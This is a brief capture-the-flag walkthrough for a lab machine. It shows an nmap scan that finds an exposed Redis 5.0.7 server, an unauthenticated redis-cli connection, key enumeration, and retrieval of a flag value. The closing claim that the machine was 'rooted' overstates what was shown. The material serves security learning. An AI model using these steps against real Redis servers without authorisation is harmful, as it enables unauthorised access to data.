 ```php
nmap -A -p- -sC 10.129.148.192

>PORT     STATE SERVICE VERSION
>6379/tcp open  redis   Redis key-value store 5.0.7
```

looks like were gonna use a new tool called `redis-cli `
its a `no-sql` type of database

gives us a shell into the `redis` database

```php
redis-cli -h 10.129.148.192
```

gives us info on the database and its system
```php
info

>Server
>redis_version:5.0.7
>redis_git_sha1:00000000
>redis_git_dirty:0
>redis_build_id:66bd629f924ac924
>redis_mode:standalone
>os:Linux 5.4.0-77-generic x86_64
>arch_bits:64
>multiplexing_api:epoll
>atomicvar_api:atomic-builtin
>gcc_version:9.3.0
>process_id:752
>run_id:6c75f6856b0139c27b9696fb446cce0529d0e204
>tcp_port:6379
>uptime_in_seconds:432
>uptime_in_days:0
>hz:10
>configured_hz:10
>lru_clock:3750769
>executable:/usr/bin/redis-server
>config_file:/etc/redis/redis.conf
```

Look at all keys that are in database 0 

```php
KEYS *

>1) "numb"
>2) "stor"
>3) "flag"
>4) "temp"
```

Get the value of the key named `flag`

```php
>get flag 
>03e1d2b376c37ab3f5319922053953eb
```

We have rooted the machine

